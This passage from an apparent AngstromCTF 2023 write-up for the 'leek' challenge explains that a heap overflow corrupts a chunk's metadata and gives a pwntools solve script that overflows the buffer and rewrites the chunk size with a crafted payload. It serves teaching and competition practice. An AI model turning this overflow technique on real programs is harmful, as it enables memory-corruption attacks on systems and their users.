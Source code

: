 ![leek](/assets/img/AngstromCTF_2023/leek.png)

As we can see in the picture above the metadata of the random bytes memory chunk are overwritten. Luckily we can fix up the metadata with another overflow (`gets(my_input);`) after the guess.

```python:solve.py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./leek")

context.binary = exe
context.terminal = ['terminator', '-x']


def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript='''
                      b *main+512
                      c
                      ''')
    else:
        r = remote("challs.actf.co", 31310)

    return r


def main():
    r = conn()
    l = log.progress('i')
    for i in range(100):
        l.status(str(i))
        r.sendlineafter(b': ', b'a'*64)
        r.sendafter(b'secret? ', b'a'*32)

        payload = b'\x01'*24 + p64(0x31)+b'\x01'*32
        r.sendlineafter(b': ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
